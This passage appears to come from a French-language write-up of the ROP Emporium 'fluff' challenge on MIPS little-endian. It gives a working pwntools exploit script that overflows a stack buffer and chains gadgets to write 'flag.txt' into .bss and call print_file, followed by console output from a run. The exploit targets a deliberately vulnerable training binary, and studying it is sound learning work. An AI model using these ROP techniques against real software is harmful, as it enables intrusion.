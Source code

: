 ```python
    pl+=p32(0xdeadbeef)        # junk
    pl+=p32(0xdeadbeef)        # junk
    pl+=p32(0xdeadbeef)        # junk
    pl+=p32(0xdeadbeef)        # junk
    pl+=p32(0xdeadbeef)        # junk
    pl+=where                  # t0
    pl+=what                   # t1
    pl+=p32(g_write_s1s0)      # t9 => next gadget
    pl+=p32(0xdeadbeef)        # junk
    return pl


if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


print_file = elf.plt["print_file"]+4
bssaddr = elf.get_section_by_name('.bss').header['sh_addr']

log.info(f"{bssaddr=:x}")
log.info(f"{print_file=:x}")

offset=0x24

PL=b"A"*offset

PL+=write_word(b'flag', p32(bssaddr))
PL+=write_word(b'.txt', p32(bssaddr+4))

# This line is read by prio gadget
PL+=p32(g_call_with_a0)    # t9 => next gadget for g_write_s1s0
PL+=p32(0xdeadbeef)        # junk
PL+=p32(print_file)        # t9 for g_call_with_a0
PL+=p32(bssaddr)           # t0 for g_call_with_a0

log.info(f"Payload size : 0x{len(PL):x}")
log.info(PL.hex())
io.sendlineafter(b"> ",PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
````

### Déroulement

```console
python3 solve.py 
[*] '/home/jce/w/ropemporium/mipsel/06_fluff/fluff_mipsel'
    Arch:     mips-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/jce/w/ropemporium/mipsel/06_fluff/fluff_mipsel': pid 7198
[*] bssaddr=411070
[*] print_file=400af0
[*] Payload size : 0x94
```